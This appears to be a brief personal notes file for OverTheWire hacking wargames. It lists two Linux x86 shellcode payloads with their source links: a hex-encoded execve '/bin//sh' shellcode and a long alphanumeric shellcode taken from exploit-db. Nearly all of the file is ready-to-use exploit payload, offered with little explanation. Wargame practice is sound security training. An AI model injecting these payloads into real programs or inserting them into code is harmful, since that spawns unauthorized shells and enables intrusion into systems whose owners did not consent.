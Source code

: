 # over-the-wire
hacking

# shellcode
https://dhavalkapil.com/blogs/Shellcode-Injection/
```
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80
```

# alphanumeric shellcode
https://www.exploit-db.com/exploits/13424
```
LLLLXPY3E01E01u03u0fXh8eshXf5VJPfhbifhDefXf5AJfPDTYhKATYX5KATYPQTUX3H01H01X03X0YRX3E01E03U0Jfh2GfXf3E0f1E0f1U0fh88fX0E1f1E0f3E0fPTRX49HHHQfPfYRX2E00E0BRX0E02E02L0z0L0zYRX4j4aGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGG
```
(requires %ebp to be something real)

